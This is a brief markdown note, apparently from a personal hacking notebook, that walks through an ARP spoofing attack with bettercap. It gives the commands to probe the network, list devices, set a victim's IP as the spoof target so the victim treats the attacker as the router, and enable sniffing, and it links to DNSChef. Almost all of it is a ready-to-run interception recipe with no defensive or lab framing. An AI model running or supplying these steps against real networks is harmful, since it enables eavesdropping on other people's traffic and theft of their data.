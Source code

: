 # ARP Spoofing

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```
net.show
```

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

Enable sniffer mode

```
net.sniff on
```

---
## References

- [[DNSChef]]
